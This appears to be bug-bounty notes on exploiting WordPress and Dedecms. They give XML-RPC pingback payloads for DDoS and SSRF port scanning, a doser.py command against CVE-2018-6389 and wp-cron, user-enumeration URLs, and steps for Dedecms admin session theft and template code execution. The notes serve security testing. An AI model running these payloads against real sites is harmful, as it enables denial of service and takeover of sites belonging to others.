 ```yaml
---
title: CMS
toc: true
date: 2021-04-14 11:42:59
tags: Summary
categories: [100 Cyber security, 110 Bug bounty, 112 Ideas]
---
```


## 指纹识别
  * Wappalyzer

## Wordpress

### Wordpress Detection
  * Wappalyzer
  * WhatRuns
  * BuildWith
### General Scan Tool
  * WpScan
### xmlrpc.php
  * one of the common issue on wp, to get credit, u need to fully exploit n show the impact.
  * detection:
    * site.com/xmlrpc.php
    * Get the error message about POST request only
  * exploit
    ***ref: https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/***
    ***https://the-bilal-rizwan.medium.com/wordpress-xmlrpc-php-common-vulnerabilites-how-to-exploit-them-d8d3c8600b32***
    * Intercept the request and change the method GET to POST
    * List all Methods
```
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```
  * pingback.ping DDoS

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

  * pingback.ping SSRF (internal PORT scan only)

```
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```
  * tools
  xmlrpc-scan https://github.com/nullfil3/xmlrpc-scan

### CVE-2018-6389 (wp <= 4.9.3)
  * detection
    * https://gist.github.com/remonsec/4877e9ee2b045aae96be7e2653c41df9
  * exploit
    * use DDoS (Doser https://github.com/quitten/doser.py)

    ```
python3 doser.py -t 999 -g 'https://site.com/fullUrlFromLoadsxploit'
    ```

### WP Cornjob DOS
  * detection
    * view site.com/wp-cron.php, You will see a Blank page with 200 HTTP status code
  * exploit
    * same tool as above (Doser)

    ```
    You will see a Blank page with 200 HTTP status code
    ```
    ***ref: https://medium.com/@thecpanelguy/the-nightmare-that-is-wpcron-php-ae31c1d3ae30***
### WP User Enumeration
  * site.com/wp-json/wp/v2/users/
  * mostly not acceptable, can be used to extend the impact tho
  * /wp/?author=1

## Dedecms

### win版本后台目录爆破
https://xz.aliyun.com/t/2064

### 利用会员密码重置漏洞重置管理员密码

### 关闭会员注册如何重置管理员密码
在Dedecms中，管理员登录过后台，就会在data目录下有一个相应的session（`eg:192.168.102.194/uploads/data/session_40b6938a56`）文件。通过目录遍历获取session值（sess_blabla），通过editcookie修改cookie(blabla)，进入后台。

### 后台内恶意执行
在模板的标签源码碎片管理中插入一段恶意代码，即可执行任意命令。
